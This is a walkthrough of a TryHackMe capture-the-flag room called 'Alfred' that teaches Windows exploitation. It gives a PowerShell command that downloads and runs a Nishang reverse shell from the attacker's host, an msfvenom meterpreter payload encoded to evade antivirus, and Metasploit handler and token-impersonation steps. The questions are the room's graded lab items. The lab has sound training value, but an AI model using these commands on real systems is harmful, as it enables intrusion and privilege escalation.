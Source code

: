 # [Alfred](https://tryhackme.com/r/room/alfred)

![Alfred](./images/Alfred.png)

[Alfred](https://tryhackme.com/r/room/alfred) is listed as an easy room. Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens. An overview of what we’ll be using is listed here:

## Task 1 - Initial Access

![task1-logo](./images/task1-logo.png)

In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

Please note that this machine _does not respond to ping_ (ICMP) and may take a few minutes to boot up.

### Answer the questions below

* How many ports are open? (TCP only)

* What is the username and password for the login panel? (in the format username:password)

* Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

	You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server

* What is the user.txt flag? 

## Task 2 - Switching Shells

![task2-logo](./images/task2-logo.png)

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create a Windows meterpreter reverse shell using the following payload:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

Before running this program, ensure the handler is set up in Metasploit:

```
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run
```

This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell

```
Start-Process "shell-name.exe"
```

This should spawn a meterpreter shell for you!

### Answer the questions below

* What is the final size of the exe payload that you generated?

## Task 3 - Privilege Escalation

![task3-logo](./images/task3-logo.png)

Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

* User SIDs(security identifier)
* Group SIDs
* Privileges

Amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

There are two types of access tokens:

* Primary access tokens: those associated with a user account that are generated on log on
* Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

* SecurityAnonymous: current user/client cannot impersonate another user/client
* SecurityIdentification: current user/client can get the identity and privileges of a client but cannot impersonate the client
* SecurityImpersonation: current user/client can impersonate the client's security context on the local system
* SecurityDelegation: current user/client can impersonate the client's security context on a remote system

Where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).

### Answer the questions below

* View all the privileges using whoami /priv

* You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability.

	Enter: load incognito to load the incognito module in Metasploit. Please note that you may need to use the use incognito command if the previous command doesn't work. Also, ensure that your Metasploit is up to date.

* To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available.

	Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command?

* Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).

	Ensure that you migrate to a process with correct permissions (the above question's answer). The safest process to pick is the services.exe process. First, use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS

* Read the root.txt file located at C:\Windows\System32\config